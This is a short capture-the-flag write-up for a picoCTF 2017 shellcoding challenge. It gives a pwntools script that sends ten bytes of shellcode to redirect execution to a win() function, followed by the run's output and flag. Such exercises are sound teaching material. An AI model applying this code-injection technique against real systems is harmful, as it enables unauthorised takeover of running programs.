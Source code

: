 ### Solved by superkojiman

The binary basically just reads in 10 bytes and executes it. Essentially a shellcoding challenge. A win() function is provided for us to return to, so I solved it just by calling win() at 0x8048540:

```
#!/usr/bin/env python

from pwn import *
context(os="linux", arch="i386")
# win() : 0x8048540

r = remote("shell2017.picoctf.com", 61986)
print r.recv()

buf = asm("push 0x8048540")
buf += asm("ret")
open("in.txt", "w").write(buf)


r.sendline(buf)
print r.recvall()
```

And the output:

```
root|picoctf|~/work/level2/pwn/shells
$ ./sploit.py SILENT=1
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?

Give me 10 bytes:
9e33b38da0c2cf684298bc23aa77685e
```
